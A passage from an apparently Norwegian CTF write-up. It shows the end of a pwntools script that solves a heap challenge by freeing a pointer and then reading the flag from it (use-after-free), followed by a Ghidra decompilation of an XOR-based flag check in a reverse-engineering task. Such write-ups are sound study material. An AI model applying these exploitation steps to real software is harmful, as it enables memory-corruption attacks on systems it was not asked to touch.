 ```py
io.sendlineafter(b"allocate?", b"1")

# Free up pointer 1
print("Free up")
io.sendlineafter(b"choice:", b"2")
io.sendlineafter(b")", b"0")

# Place flag at pointer 1
print("Place flag")
io.sendlineafter(b"choice:", b"4")

# Read mem from pointer 1
io.sendlineafter(b"choice:", b"3")
io.sendlineafter(b")", b"0")
io.interactive() # Recieve flag

# Close the connection
io.close()
```

<details><summary>Flagg</summary></details>



# REVERSE_ENGINEERING

## REVXOR

### Oppgave

Hele oppgavebeskrivelsen finnes [her](reverse_engineering/revxor/challenge.md)

### Løsning

Åpner vi filen i Ghidra ser vi at vi kan dekompilere denne funksjonen:

```c
size_t sVar1;
undefined8 uVar2;
byte local_48 [52];
int local_14;
byte local_d;
int local_c;

local_d = 0x7a;
local_48[0] = 0x29;
local_48[1] = 0x48;
local_48[2] = 0x3d;
...
local_48[0x22] = 0x48;
local_48[0x23] = 0x4f;
local_48[0x24] = 0x07;
local_14 = 0x25;
sVar1 = strlen(param_1);
if (sVar1 == (long)local_14) {
for (local_c = 0; local_c < local_14; local_c = local_c + 1) {
    if ((byte)(param_1[local_c] ^ local_d) != local_48[local_c]) {
    return 0;
    }
}
uVar2 = 1;
}
else {
uVar2 = 0;
```